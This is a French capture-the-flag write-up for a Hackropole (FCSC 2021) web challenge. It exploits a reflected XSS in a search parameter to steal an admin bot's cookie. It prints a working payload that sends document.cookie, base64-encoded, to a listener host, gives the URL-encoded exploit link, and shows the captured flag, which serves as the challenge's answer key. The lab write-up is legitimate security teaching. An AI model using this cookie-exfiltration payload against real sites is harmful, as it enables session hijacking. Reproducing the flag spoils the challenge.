



### Informations sur le Challenge

- **Plateforme :** Hackropole (FCSC 2021)
    
- **Catégorie :** Web / Bot / PHP
    
- **Difficulté :** Facile / Intermédiaire
    

### Étape 1 : Analyse de l'application et découverte de la faille

L'application web propose un moteur de recherche via le paramètre `search` sur `index.php`. En testant l'injection de balises HTML basiques dans la barre de recherche :

```
<script>alert('XSS')</script>
```

Le script s'exécute immédiatement dans le navigateur. L'absence de nettoyage (sanitization) ou d'encodage des entités HTML confirme la présence d'une vulnérabilité **XSS Reflétée (Cross-Site Scripting)**.



L'application fournit également une page `contact.php` dotée d'un formulaire permettant de soumettre une URL. L'énoncé indique qu'un administrateur (bot) visite automatiquement les URL soumises. L'objectif est d'exploiter la XSS sur `index.php` pour forcer le bot de l'administrateur à exécuter un code JavaScript malveillant afin de lui voler son cookie d'authentification.



### Étape 2 : Configuration de l'environnement d'écoute

Pour intercepter la requête du bot contenant le cookie, nous devons ouvrir un serveur d'écoute sur la machine locale (Kali Linux).

```bash
python3 -m http.server 8080
```

> **⚠️ Piège réseau (Docker Bypass) :** Le bot s'exécutant dans un réseau de conteneurs isolés, l'utilisation de `localhost` ou `127.0.0.1` au sein du payload XSS échoue car le bot tenterait d'interroger sa propre instance. Il est impératif d'utiliser l'adresse IP de l'hôte Kali sur le sous-réseau Docker (ici, la passerelle identifiée par les requêtes entrantes est `172.19.0.2`).

### Étape 3 : Construction du Payload et Exploitation

Le payload JavaScript doit récupérer la valeur de `document.cookie`, l'encoder en Base64 via la fonction `btoa()` (pour éviter que les espaces ou points-virgules ne cassent la structure de la requête HTTP) et l'envoyer vers notre serveur d'écoute :

```
<script>fetch("http://172.19.0.2:8080/?cookie=" + btoa(document.cookie))</script>
```

Pour injecter ce payload à travers le paramètre de recherche, tous les caractères spéciaux doivent être encodés au format URL (_URL-encoded_) :

```text
http://localhost:8000/index.php?search=%3Cscript%3Efetch%28%22http%3A%2F%2F172.19.0.2%3A8080%2F%3Fcookie%3D%22%2Bbtoa%28document.cookie%29%29%3C%2Fscript%3E
```

Cette URL finale est soumise dans le champ de contact afin que le bot l'ouvre dans son propre contexte de navigation.

### 🏁 Résultat & Flag

Dès la visite du bot, le serveur Python intercepte la requête HTTP `GET` contenant la chaîne de caractères encodée :

```
172.19.0.2 - - "GET /?cookie=YWRtaW49RkNTQ3s0ZTA0NTFjYzg4YTlhOTZlN2U0Njk0NzQ2MTM4MjAwOGQ4YzhmNDMwNDM3M2I4OTA3OTY0Njc1YzI3ZDdjNjMzfQ== HTTP/1.1" 200 -
```



Il suffit de décoder cette valeur textuelle depuis le terminal :

```
echo "YWRtaW49RkNTQ3s0ZTA0NTFjYzg4YTlhOTZlN2U0Njk0NzQ2MTM4MjAwOGQ4YzhmNDMwNDM3M2I4OTA3OTY0Njc1YzI3ZDdjNjMzfQ==" | base64 -d
```


**Flag obtenu :**

```
admin=FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}
```
